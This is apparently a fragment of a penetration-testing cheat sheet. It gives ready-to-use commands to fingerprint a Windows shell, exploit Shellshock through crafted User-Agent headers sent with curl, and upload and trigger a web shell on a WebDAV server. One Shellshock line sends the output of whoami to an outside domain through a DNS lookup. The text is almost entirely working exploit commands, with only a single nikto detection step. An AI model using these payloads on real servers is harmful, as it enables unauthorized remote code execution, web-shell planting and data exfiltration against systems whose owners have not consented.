 -> Check if the commands are executed by PowerShell or CMD
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Shellshock
-> Detection
```bash
nikto -h <IP> -C all
```
	
-> Exploit
```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'whoami'" <IP>
curl -A "() { :; };echo ;/bin/bash -c 'hostname'"  <IP>
curl -A "() { :; }; /usr/bin/nslookup $(whoami).site.com" <IP>
```

## WebDAV
-> Connect to WebDAV server and send malicious file to shell
```bash
cadaver http://<IP>/webdav
put <shell.asp>
```
```bash
curl -u "<user>:<password>" http://<IP>/webdav/shell.asp
```
- https://github.com/notroj/cadaver
